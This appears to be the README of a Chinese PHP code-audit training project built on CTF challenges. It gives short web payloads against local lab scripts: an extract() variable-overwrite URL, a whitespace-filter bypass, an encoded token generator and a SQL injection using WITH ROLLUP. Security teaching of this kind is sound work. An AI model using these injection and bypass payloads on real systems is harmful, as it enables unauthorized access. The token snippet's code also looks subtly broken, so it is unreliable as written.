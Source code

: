﻿# PHP代码审计分段讲解

- **作  者：bowu**
- **网  站：[薄雾‘ s Blog](http://www.bowu8.com)**
- **Github: [bowu (Github)](https://github.com/bowu678/php_bugs)**
- **本项目将会持续更新，请`Star`予以支持，感谢亲 :)**

## 关于本项目

代码审计对于很多安全圈的新人来说，一直是一件头疼的事情，也想跟着大牛们直接操刀审计CMS？却处处碰壁：

- 函数看不懂！
- 漏洞原理不知道！
- PHP特性更不知！

**那还怎么愉快审计？**

不如**化繁为简**，跟着本项目先搞懂PHP中大多敏感函数与各类特性，再逐渐增加难度，直到可以吊打各类CMS~

> 本项目讲解基于多道CTF题，玩CTF的WEB狗也不要错过(＾－＾)V

> 题的源码在Github: [bowu (Github)](https://github.com/bowu678/php_bugs)，可以自行部署，也可以静态审计。

## 01 extract变量覆盖

`http://127.0.0.1/Php_Bug/extract1.php?shiyan=&flag=1`

## 02 绕过过滤的空白字符

可以引入\f（也就是%0c）在数字前面，来绕过最后那个is_palindrome_number函数，而对于前面的数字判断，因为intval和is_numeric都会忽略这个字符，所以不会影响。

`http://127.0.0.1/Php_Bug/02.php?number=%00%0c191`


## 03 多重加密

```
<?php

$arr = array(['user'] === 'ichunqiu');
$token = base64_encode(gzcompress(serialize($arr)));
print_r($token);
// echo $token;

?>
```

`eJxLtDK0qs60MrBOAuJaAB5uBBQ=`


## 04 SQL注入_WITH ROLLUP绕过


`admin' GROUP BY password WITH ROLLUP LIMIT 1 OFFSET 1-- - `

资料：
